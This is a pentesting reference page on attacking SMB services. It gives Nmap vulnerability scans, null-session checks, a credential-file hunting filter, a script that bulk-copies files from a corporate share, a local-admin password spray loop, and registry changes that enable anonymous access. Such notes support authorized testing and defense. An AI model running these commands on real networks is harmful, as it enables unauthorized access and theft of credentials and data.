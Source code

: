 ```yaml
---
description: Server Message Block
---
```


# SMB

Check for SMB vulnerablities with Nmap:

```
$ sudo nmap -sV --script-args=unsafe=1 --script smb-os-discovery 10.10.13.37 -p139,445
$ sudo nmap -n -Pn -sV --script 'smb-vuln*' 10.10.13.37 -p445
```

Check if SMB Signing is enabled with CME:

```
$ cme smb smb.txt | grep -a 'signing:False'
```




## Fingerprint

* [https://book.hacktricks.xyz/pentesting/pentesting-smb#smb-server-version](https://book.hacktricks.xyz/pentesting/pentesting-smb#smb-server-version)

Enumerate SMB version for old versions of Samba (for security reasons modern clients will not initiate connection with legacy protocols in use):

```
$ sudo ngrep -i -d eth0 's.?a.?m.?b.?a.*[[:digit:]]' port 139
$ echo exit | smbclient -N -L 10.10.13.37 --option='client min protocol=LANMAN1'
```




## Mounting

Mount:

```
$ sudo mount -t cifs '//127.0.0.1/Users' /mnt/smb -v -o user=snovvcrash,[pass='Passw0rd!']
```

Status:

```
$ mount -v | grep 'type cifs'
$ df -k -F cifs
```

Unmount:

```
$ sudo umount /mnt/smb
```




## SMB Share with Null Authentication

Create an SMB share allowing null authentication.



### Linux

{% code title="/etc/samba/smb.conf" %}
```
[global]
   map to guest = bad user
   server role = standalone server
   usershare allow guests = yes
   smb ports = 445

[smb]
   comment = Samba
   path = /srv/smb
   guest ok = yes
   read only = no
   browsable = yes
   force user = nobody
```
{% endcode %}

```
$ sudo service smbd restart
$ sudo chown -R nobody:root /srv/smb/
$ sudo chmod -R 777 /srv/smb/
```



### Windows

- [https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer](https://github.com/3gstudent/Invoke-BuildAnonymousSMBServer)

```
PS > mkdir C:\share
PS > icacls C:\share\ /T /grant Anonymous` logon:r
PS > icacls C:\share\ /T /grant Everyone:r
PS > New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
PS > REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f  # this will overwrite existing NullSessionPipes
PS > REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
PS > REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
PS > REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
```




## Hunt for Shares & Content

- [https://github.com/blacklanternsecurity/MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER)
- [https://github.com/SnaffCon/Snaffler](https://github.com/SnaffCon/Snaffler)
- [https://github.com/mitchmoser/SharpShares](https://github.com/mitchmoser/SharpShares)
- [https://github.com/punk-security/SMBeagle](https://github.com/punk-security/SMBeagle)
- [https://github.com/p0dalirius/FindUncommonShares](https://github.com/p0dalirius/FindUncommonShares)



### Toy Example

Collect listing of files with size < 10 Mb:

```
PS > cd \\megacorp.local\share
PS > Get-ChildItem -Recurse -File | ? { $_.Length -lt 10MB } | select -ExpandProperty FullName | Out-File share.txt
```

Filter only files of interest based on their extensions, print the stats as a Python dict:

```
$ dos2unix share.txt
$ cat share.txt | grep -e '\.7z$' -e '\.bak$' -e '\.bash_history$' -e '\.bat$' -e '\.bz2$' -e '\.cfg$' -e '\.cmd$' -e '\.conf$' -e '\.csv$' -e '\.doc$' -e '\.docm$' -e '\.docx$' -e '\.env$' -e '\.gz$' -e '\.ini$' -e '\.json$' -e '\.kdbx$' -e '\.key$' -e '\.odp$' -e '\.ods$' -e '\.odt$' -e '\.old$' -e '\.ovpn$' -e '\.p12$' -e '\.pdf$' -e '\.pem$' -e '\.pfx$' -e '\.ppt$' -e '\.pptx$' -e '\.ps1$' -e '\.rar$' -e '\.rtf$' -e '\.sh$' -e '\.tar$' -e '\.txt$' -e '\.vbs$' -e '\.xls$' -e '\.xlsm$' -e '\.xlsx$' -e '\.xml$' -e '\.yaml$' -e '\.yml$' -e '\.zip$' -e '\.zsh_history$' \
| awk -F. '{print $NF}' \
| sort \
| uniq -c \
| awk 'BEGIN { d = "{" } { d = d sprintf("\x27.%s\x27: %s, ", $2, $1) } END { d = substr(d, 1, length(d)-2); print d "}" }'
```

Generate a list of wanted files (Python) and copy them locally preserving original directory structure (PS):

{% tabs %}
{% tab title="Gen List " %}
{% code title="gen_list.py" %}
```python
#!/usr/bin/env python3
# gen_list.py share.txt > files.txt

import sys
from pathlib import Path
from random import sample

stats = { ... }

with open(sys.argv[1]) as f:
    files = f.read().splitlines()

for suffix, count in stats.items():
    if count <= 1000:
        arr = [line for line in office if Path(line).suffix == suffix]
    else:
        arr = [line for line in office if Path(line).suffix == suffix]
        arr = sample(arr, 1000)
    for a in arr:
        print(a)
```
{% endcode %}
{% endtab %}
{% tab title="Get Files" %}
{% code title="get_files.ps1" %}
```powershell
$sourceBase = "\\megacorp.local\share"
$destinationBase = "C:\Share"
$fileList = Get-Content "C:\Share\files.txt" -Encoding UTF8

foreach ($file in $fileList) {
    $relativePath = $file.Substring($sourceBase.Length)
    $destFile = Join-Path $destinationBase $relativePath

    $destDir = Split-Path $destFile
    if (-not (Test-Path $destDir)) {
        New-Item -ItemType Directory -Path $destDir -Force | Out-Null
    }

    Copy-Item -Path $file -Destination $destFile -Force
}
```
{% endcode %}
{% endtab %}
{% endtabs %}




## Tools



### rpcclient

Check for null authentication:

```
$ rpcclient -N -L 127.0.0.1
```

With user creds:

```
$ rpcclient -U 'snovvcrash%Passw0rd!' 127.0.0.1
```



### smbclient(.py)

Check for null authentication:

```
$ smbclient -N -L 127.0.0.1
$ smbclient -N '\\127.0.0.1\Data'
```

With user creds:

```
$ smbclient -U snovvcrash '\\127.0.0.1\Users' 'Passw0rd!'
```

Get all files recursively:

```
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

Local admin spray:

```
$ cat use_c.cmd
use c$
ls Windows
$ for srv in `cat 445.tcp`; do proxychains4 -q smbclient.py Administrator:'Passw0rd!'@$srv -inputfile use_c.cmd |& grep Windows && echo $i; done
```



### smbmap

```
$ smbmap -H 127.0.0.1
$ smbmap -H 127.0.0.1 -u anonymous
$ smbmap -H 127.0.0.1 -u '' -p ''
$ smbmap -H 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -R ShareName
$ smbmap -H 127.0.0.1 -u snovvcrash -p 'Passw0rd!' -R ShareName -A .
```
